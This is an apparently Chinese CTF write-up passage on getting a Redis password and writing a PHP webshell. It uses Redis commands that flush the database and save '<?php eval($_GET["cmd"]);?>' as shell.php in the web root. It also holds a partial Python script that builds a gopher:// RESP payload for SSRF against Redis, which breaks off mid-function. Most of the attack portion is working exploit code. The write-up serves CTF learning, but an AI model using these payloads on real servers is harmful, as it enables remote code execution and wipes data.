 看完✌们的wp说是（不太理解还）

![image-20231003211849453](..\img\final\image-20231003211849453.png)

然后 /tmp/hint.txt直接访问会会的redis的密码，

if($memcache->get("flag")==='flag'){  只要这个key通过搞成flag下面就是打redis绝对路径写入马即可

#### 绝对路径写webshell

##### 构造redis命令

```
flushall
set 1  '<?php eval($_GET["cmd"]);?>'
config set dir /var/www/html
config set dbfilename shell.php
save
```

转化成redis RESP协议的格式（RESP是redis服务器和本机之间交互的协议）、

```python
import urllib
protocol="gopher://"
ip="192.168.163.128"
port="6379"
shell="\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"
filename="shell.php"
path="/var/www/html"
passwd=""
cmd=["flushall",
     "set 1 {}".format(shell.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
```